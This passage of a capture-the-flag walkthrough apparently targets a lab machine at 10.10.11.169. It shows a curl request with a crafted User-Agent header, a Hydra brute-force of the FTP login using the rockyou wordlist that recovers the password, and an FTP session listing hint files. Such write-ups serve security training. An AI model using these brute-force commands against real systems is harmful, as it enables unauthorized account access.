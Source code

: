 ```bash
$ curl -L http://10.10.11.169 -H 'User-Agent: C'
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R

```


### ftp


```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.11.169
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-09 19:17:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.11.169:21/
[21][ftp] host: 10.10.11.169   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-09 19:18:45
```

```bash
$ ftp 10.10.11.169
Connected to 10.10.11.169.
220 (vsFTPd 3.0.3)
Name (10.10.11.169:joshua): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||49396|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

We got 2 image files and this message:

```
$ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
